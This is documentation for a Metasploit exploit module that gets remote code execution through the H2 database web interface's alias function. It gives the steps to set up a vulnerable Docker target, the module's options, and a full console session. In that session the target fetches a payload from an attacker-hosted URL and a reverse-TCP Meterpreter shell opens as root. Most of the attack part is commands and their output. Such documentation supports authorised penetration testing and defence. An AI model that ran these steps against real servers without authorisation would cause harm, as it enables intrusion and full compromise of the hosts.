 ## Vulnerable Application

The H2 database contains an alias function which allows for arbitrary Java code to be used.
This functionality can be abused to create an exec functionality to pull our payload down
and execute it. H2's web interface contains restricts MANY characters, so injecting a payload
directly is not favorable. A valid database connection is required. If the database engine
was configured to allow creation of databases, the module default can be used which
utilizes an in memory database. Some Docker instances of H2 don't allow writing to
folders such as /tmp, so we default to writing to the working directory of the software.

This module was tested against H2 version 2.1.214, 2.0.204, 1.4.199 (version detection fails)

### Application Install

The `ifNotExists` option is used to allow for creation of new databases from the web interface. This substantially speeds
up testing of the exploit.

```
docker run -d -p 1521:1521 -p 81:81 -v /path/to/local/data_dir:/opt/h2-data -e H2_OPTIONS=-ifNotExists --name=MyH2Instance oscarfonts/h2
```

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/h2_webinterface_rce`
1. Do: `set rhosts [ip]`
1. Do: `set rport [port]`
1. Do: `run`
1. You should get a shell.

## Options

### DATABASE

The database to connect to. If a default was already filled in, it is shown during module execution.
Defaults to `jdbc:h2:mem:` which is an in-memory DB to avoid writing to disc.

### GETVERSION

Will retrieve the version of the server. Most likely only works on 2.0.0+. Defaults to `true`

## Scenarios

### H2 Version 2.1.214 from Docker

```
msf > use exploit/linux/http/h2_webinterface_rce
[*] Using configured payload cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/h2_webinterface_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf exploit(linux/http/h2_webinterface_rce) > set rport 81
rport => 81
msf exploit(linux/http/h2_webinterface_rce) > set verbose true
verbose => true
msf exploit(linux/http/h2_webinterface_rce) > set lhost 111.111.11.111
lhost => 111.111.11.111
msf exploit(linux/http/h2_webinterface_rce) > set srvhost 111.111.11.111
srvhost => 111.111.11.111
msf exploit(linux/http/h2_webinterface_rce) > exploit

[*] Started reverse TCP handler on 111.111.11.111:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Obtaining jsessionid (cookie equivalent)
[+] jsessionid (cookie equivalent): ec97655f1aa8e1132fd8bd0e5581d9f0
[*] Detected autofilled DB: jdbc:h2:mem:
[+] The target is vulnerable. 127.0.0.1:81 - H2 web interface found, and database connection successful
[*] Obtaining jsessionid (cookie equivalent)
[+] jsessionid (cookie equivalent): 9828fc9f6bd0de76e0c88f44a07fc7bb
[+] H2 Version detected: 2.1.214
[*] Using URL: http://111.111.11.111:8080/D1OHj7
[*] Saving payload as AYZER67Th.sh
[*] Attempting to execute payload retrieval
[+] Received payload request
[*] Sending stage (24772 bytes) to 222.222.2.2
[*] Meterpreter session 1 opened (111.111.11.111:4444 -> 222.222.2.2:43968) at 2023-07-27 16:44:03 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root
```
